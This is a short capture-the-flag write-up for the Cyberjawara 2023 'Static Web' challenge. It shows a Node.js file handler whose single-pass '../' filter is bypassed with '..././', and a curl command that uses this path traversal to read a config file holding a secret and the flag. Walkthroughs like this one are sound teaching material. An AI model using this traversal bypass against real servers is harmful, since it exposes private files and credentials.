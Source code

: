 ```yaml
---
comments: true
title: Cyberjawara 2023 Web Writeup
date: 2023-12-04T00:00:00.000+07:00
category:
- ctf
tags:
- cj2023
private: false

---
```


### Static Web - 300pts - 63 solves

Given web application that serves static file by defining custom routes and using `fs.readFile` to read the content. 

```javascript

if (req.url.startsWith('/static/')) {
    const urlPath = req.url.replace(/\.\.\//g, '')
    const filePath = path.join(__dirname, urlPath);
    fs.readFile(filePath, (err, data) => {
        if (err) {
            res.writeHead(404);
            res.end("Error: File not found");
        } else {
            res.writeHead(200);
            res.end(data);
        }
    });
} 
```

Known that there could be possibility to path traversal there is a protection using `const urlPath = req.url.replace(/\.\.\//g, '')` but this regex is could be bypassed using `..././flag.txt`

```bash

curl --path-as-is "https://static-web.ctf.cyberjawara.id/static/..././config.js"
const secret = 'wWij1i23ejasdsdjvno2rnj123123';
const flag = 'CJ2023{1st_warmup_and_m1c_ch3ck}';

module.exports = {secret, flag}%    
```

![Static web flag](/uploads/static-web-flag.png)



